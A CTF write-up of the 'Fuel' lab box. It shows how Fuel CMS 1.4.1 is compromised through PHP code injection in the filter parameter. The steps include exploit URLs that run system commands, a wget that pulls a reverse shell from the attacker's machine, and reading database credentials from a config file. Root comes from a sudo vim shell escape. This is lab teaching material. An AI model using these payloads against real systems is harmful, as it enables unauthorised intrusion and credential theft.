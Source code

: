 ```yaml
---
layout: default
title : muzec - zSeucurity Fuel Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117584595-d56dc780-b0db-11eb-802c-b0ad07d21178.png)


We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 12:33 EDT
Nmap scan report for 10.10.176.69
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1c:59:d1:07:ea:d8:d2:0d:9a:1a:95:0c:74:f2:e6:d0 (RSA)
|   256 cd:a8:fc:b3:5c:0e:3e:12:76:80:d3:60:cb:1f:88:50 (ECDSA)
|_  256 91:57:e4:6e:1d:4e:48:ec:3a:1c:a3:c7:89:40:4b:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Fuel CTF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.27 seconds
```

Shit here we go again lol so we have 2 open ports SSH(22) and HTTP(80) ok aheading to port 80 to see what is running.

![image](https://user-images.githubusercontent.com/69868171/117584720-7c526380-b0dc-11eb-9d0a-123f174ce218.png)

![image](https://user-images.githubusercontent.com/69868171/117584742-8ffdca00-b0dc-11eb-99e1-c1e45d11066a.png)

Fuelcms cool and we have the version also 1.4.1 ok let look around the blog more so i found a credentials aslo but no luck with it.

![image](https://user-images.githubusercontent.com/69868171/117584787-dce1a080-b0dc-11eb-9e2b-7d5790f70670.png)

Since we know the Fuelcms version let check if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/117584839-30ec8500-b0dd-11eb-8c87-46008b61577f.png)

Ahhhh yea some Remote Code Execution exploit look cool let give it a try i love doing things manually why is that?? because we learn more from doing things manually that is the best way to learn.

![image](https://user-images.githubusercontent.com/69868171/117585011-2ed6f600-b0de-11eb-9878-2c13781881d8.png)

Going through the exploit i found our the vulnerable page which can allow us to run system command with some little tweaking added.

`http://10.10.176.69/fuelcms/index.php/fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('uname -a')%2B'`

![image](https://user-images.githubusercontent.com/69868171/117585104-99883180-b0de-11eb-86a2-798f082937dc.png)

Cool our commands works now time to get a reverse shell back to our terminal.

1. we need to host the reverse shell with SimpleHTTPServer on our attacking machine
2. we need to use wget to get it onto the victim machine

![image](https://user-images.githubusercontent.com/69868171/117585218-3a76ec80-b0df-11eb-84f8-a30807d79e6a.png)

Now let wget it.

`http://10.10.176.69/fuelcms/index.php//fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('wget local-ip:8000/rev.php')%2B'`

![image](https://user-images.githubusercontent.com/69868171/117585275-845fd280-b0df-11eb-9de0-3297ad86327d.png)

Now let start our ncat listener with the port we add to the reverse shell file.

![image](https://user-images.githubusercontent.com/69868171/117585322-cee14f00-b0df-11eb-9123-14835a5f5ec7.png)

Now let access the reverse shell file to get our shell back we can also confirm our file if upload on the target.

`http://10.10.176.69/fuelcms/index.php//fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('ls -la')%2B'`

![image](https://user-images.githubusercontent.com/69868171/117585370-1a93f880-b0e0-11eb-9a1a-7be8eace4fa9.png)


Now let get Shell.

`http://10.10.176.69/fuelcms/rev.php`

![image](https://user-images.githubusercontent.com/69868171/117585453-7cecf900-b0e0-11eb-8f63-005ea3d754dd.png)

Boom we have shell and also let spawn a TTY shell.

`python3 -c 'import pty; pty.spawn ("/bin/bash")'`

### Privilege Escalation

Going to the directory we have only one user both have no access to it.

![image](https://user-images.githubusercontent.com/69868171/117585620-6004f580-b0e1-11eb-87bf-b4505aeb95b4.png)

Going through the FuelCMS folder i found the database with MYSQL login details.

`/var/www/html/fuelcms/fuel/application/config/database.php`

![image](https://user-images.githubusercontent.com/69868171/117585760-1c5ebb80-b0e2-11eb-8623-80d84ef75cdb.png)

Typing `mysql` and i was in .

![image](https://user-images.githubusercontent.com/69868171/117585807-6e9fdc80-b0e2-11eb-8cde-2973b2fe363d.png)

```
show databases;
use fuelcmsdb;
show tables;
```

![image](https://user-images.githubusercontent.com/69868171/117585865-ba528600-b0e2-11eb-855e-25a431b1ccf4.png)

Now let read fuel_users table.

`SELECT * From fuel_users;`

![image](https://user-images.githubusercontent.com/69868171/117585909-09002000-b0e3-11eb-9ac7-1a1598699d3f.png)

Boom we have john password in base64 now let decode it.

![image](https://user-images.githubusercontent.com/69868171/117585926-3056ed00-b0e3-11eb-8e5f-5a0258df2e86.png)

Decoded since we have the password now i think we have port 22 open which is SSH let log in with it.

![image](https://user-images.githubusercontent.com/69868171/117585996-82980e00-b0e3-11eb-903b-45bd6f5a67f9.png)

And we are in now let check sudo.

![image](https://user-images.githubusercontent.com/69868171/117586007-96dc0b00-b0e3-11eb-8c64-756bf7be0c54.png)

Seems we can run vim ti get root let check gtfobins.

![image](https://user-images.githubusercontent.com/69868171/117586064-d4d92f00-b0e3-11eb-842f-28ebc75eefef.png)

`sudo vim -c ':!/bin/sh'`

![image](https://user-images.githubusercontent.com/69868171/117586106-03570a00-b0e4-11eb-8c25-19956db04ef7.png)

And we are root.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
